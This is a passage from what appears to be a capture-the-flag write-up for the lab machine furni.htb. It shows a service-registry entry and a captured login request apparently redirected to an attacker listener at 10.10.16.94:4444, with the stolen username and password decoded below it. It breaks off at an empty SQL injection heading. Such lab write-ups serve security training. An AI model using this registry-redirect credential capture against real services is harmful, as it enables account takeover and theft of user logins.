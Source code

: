 ```http
    },
    "isCoordinatingDiscoveryServer": false,
    "lastUpdatedTimestamp": 1630906180645,
    "lastDirtyTimestamp": 1630906182808,
    "actionType": null,
    "asgName": null,
    "port": {
      "$": 4444,
      "@enabled": "true"
    },
    "securePort": {
      "$": 443,
      "@enabled": "false"
    },
    "metadata": {
      "management.port": "8081"
    }
  }
}
```

```http
POST /login HTTP/1.1
X-Real-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1,127.0.0.1
X-Forwarded-Proto: http,http
Content-Length: 168
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=ZGEwZjc4NGUtYjg2Ni00NjJiLWJhNTktZjkwYmZhMzdmMzU5
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:58048"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.16.94:4444

username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=EN-V0z4G41xZWlRL40WN1r6c9YeqAo0jd2fF3Oh_NDrkVrIJIb724g8_2250OzAo2mi549ur2L7PMbkOQgT35N9JAQzSYIs6


miranda-wise:IL!veT0Be&BeT0L0ve
```

---

# Exploitation

## SQL Injection
